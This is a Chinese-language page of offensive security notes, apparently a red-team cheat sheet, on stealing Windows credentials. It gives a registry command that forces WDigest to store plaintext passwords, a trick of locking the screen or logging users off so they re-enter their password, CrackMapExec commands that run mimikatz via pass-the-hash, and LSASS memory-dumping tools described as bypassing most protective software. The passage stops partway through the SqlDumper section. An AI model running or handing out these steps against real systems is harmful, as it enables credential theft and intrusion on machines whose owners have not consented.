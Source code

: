 ## WDigest Auth

Microsoft 发布了一个补丁[KB2871997](https://blogs.technet.microsoft.com/srd/2014/06/05/an-overview-of-kb2871997/)，安装此补丁后，允许用户在注册表中配置一个设置（高版本已默认配置）禁用 WDigest 身份验证，从而防止将明文密码存储在内存中。此时 mimikatz 用抓取时密码字段会显示为 null。

> 作为 WDigest 身份验证提供程序的一部分，Windows 8 和 2012 之前的版本默认以明文形式在内存中存储登录凭据，而较新的 Windows 版本不再是这种情况。

安装此安全更新后，可以使用注册表设置来控制如何保存已安装的 WDigest 凭据。
强制 WDigest 以明文形式存储凭据：（在下次有人登录到目标系统时以明文形式存储凭据）

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

-   如果 UseLogonCredential 值设置为 0，WDigest 将不会在内存中存储凭据。
-   如果 UseLogonCredential 值设置为 1，WDigest 会将凭据存储在内存中。

> 配置 WDigest 以明文形式存储凭据后，获取用户的休眠锁屏机制，查看用户桌面已经有多久没有活动了，在合适的时间调用锁屏让目标输入登录密码。

```
# 锁屏
rundll32 user32.dll,LockWorkStation

# 注销登录用户
logoff <Session ID>

# 如果等待，也可以强制登录让其下线迫使其输入密码
cme smb 17.10.0.10  -u administrator -p -H <hash> -x quser
cme smb 17.10.0.10  -u administrator -p -H <hash> -m mimikatz.py -x quser
```

> [https://github.com/wh0nsq/BypassCredGuard](https://github.com/wh0nsq/BypassCredGuard)

## 其它凭据转储工具

> [https://blog.jd.army/2022/10/10/Lsass%20memory%20dump/](https://blog.jd.army/2022/10/10/Lsass%20memory%20dump/)

### PwDump

[PwDump 7 for Windows](https://www.tarasco.org/security/pwdump_7/)

### procdump

[procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump) 是微软官方发布的工具，使用该工具可以把 lsass 的内存 dump 下来，可以绕过大多数的防护软件。

### Sqldumper

SQLDumper 是 Microsoft SQL Server 程序的一部分，主要是为了调试 SQL Server 和相关进程的内存。默认存放在：`C:\Program Files\Microsoft SQL Server\<SQLServeVersionNumber>\Shared`，如果目标机器没有安装 SQL Server ，上传个`SqlDumper.exe`即可。

查询 lsass.exe 进程的 pid：
